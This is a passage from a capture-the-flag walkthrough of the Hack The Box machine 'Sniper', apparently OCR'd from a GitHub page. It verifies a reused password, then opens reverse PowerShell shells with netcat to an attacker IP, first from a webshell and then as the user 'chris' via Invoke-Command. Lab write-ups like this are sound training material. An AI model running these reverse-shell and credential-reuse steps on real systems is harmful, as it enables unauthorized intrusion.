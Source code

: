 7. Verify the account using rpcclient
    root@p3:/opt/shells# rpcclient -U chris sniper.htb
    Enter WORKGROUP\chris's password: (36mEAhz/B8xQ~2VM)
    rpcclient $>

    NOTE: Looks like Chris is re-using his password. Working creds - Chris:36mEAhz/B8xQ~2VM

8. Spawn an interactive reverse powershell from your webshell by calling netcat for windows.
   Download netcat 1.12: https://eternallybored.org/misc/netcat/

   root@p3:/opt/htb/machines/sniper# unzip netcat-win32-1.12.zip /nc64
   root@p3:/opt/htb/machines/sniper# cp nc64/nc64.exe /srv/pub-share
   root@p3:/opt/htb/machines/sniper# chmod +x /srv/pub-share/nc64.exe

   From Webshell:
   //10.10.14.10/pub-share/nc64.exe 10.10.14.10 4488 -e powershell

   root@p3:/opt/htb/machines/sniper# nc -lvnp 4488
      listening on [any] 4488 ...
      connect to [10.10.14.10] from (UNKNOWN) [10.10.10.151] 49908
      Windows PowerShell
      Copyright (C) Microsoft Corporation. All rights reserved.

   PS C:\inetpub\wwwroot\user> whoami
      whoami
      nt authority\iusr
   PS C:\inetpub\wwwroot\user> $env:computername
      $env:computername
      SNIPER

9. Change user from iusr to Chris by setting up another reverse shell, using the found creds.

    Assign the credentials:
      PS C:\inetpub\wwwroot\blog> $user = 'sniper.htb\chris'
      PS C:\inetpub\wwwroot\blog> $pass = '36mEAhz/B8xQ~2VM' | ConvertTo-SecureString -AsPlainText -Force
      PS C:\inetpub\wwwroot\blog> $creds = New-Object System.Management.Automation.PSCredential($user,$pass)

    Test to make sure it works by sending single command to the "remote" host:
      PS C:\inetpub\wwwroot\blog> Invoke-Command -ComputerName localhost -Credential $creds -ScriptBlock { whoami }
            sniper\chris

    Setup a new reverse shell as Chris:
      PS C:\inetpub\wwwroot\blog> Invoke-Command -ComputerName localhost -Credential $creds -ScriptBlock { //10.10.14.10/pub-share/nc64.exe 10.10.14.10 4499 -e powershell }

      root@p3:/opt/htb/machines/sniper# nc -lvnp 4499
        listening on [any] 4499 ...
        connect to [10.10.14.10] from (UNKNOWN) [10.10.10.151] 50014
        Windows PowerShell
        Copyright (C) Microsoft Corporation. All rights reserved.

      PS C:\Users\Chris\Documents> whoami
        whoami
        sniper\chris
